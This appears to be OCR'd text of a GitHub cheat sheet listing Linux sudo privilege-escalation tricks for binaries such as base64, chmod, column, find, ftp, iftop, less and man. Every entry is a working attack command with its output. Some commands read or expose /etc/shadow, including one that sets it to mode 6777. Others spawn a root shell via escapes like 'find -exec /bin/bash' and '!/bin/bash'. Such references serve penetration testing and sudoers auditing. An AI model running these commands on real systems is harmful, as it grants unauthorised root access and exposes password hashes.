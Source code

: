 - **base64**

`user@debian:~$ sudo base64 /etc/shadow | base64 -d`

- **chmod**

```
user@debian:~$ sudo chmod 6777 /etc/shadow

user@debian:~$ cat /etc/shadow
```

- **column**

`user@debian:~$ sudo column /etc/shadow`

- **find**

```
user@debian:~$ sudo find . -exec /bin/bash \; -quit

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **ftp**

```
user@debian:~$ sudo ftp
ftp> !/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **iftop**

```
user@debian:~$ sudo iftop
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **less**

```
user@debian:~$ sudo less /etc/shadow

user@debian:~$ sudo less /etc/profile
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **man**

```
user@debian:~$ sudo man man
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
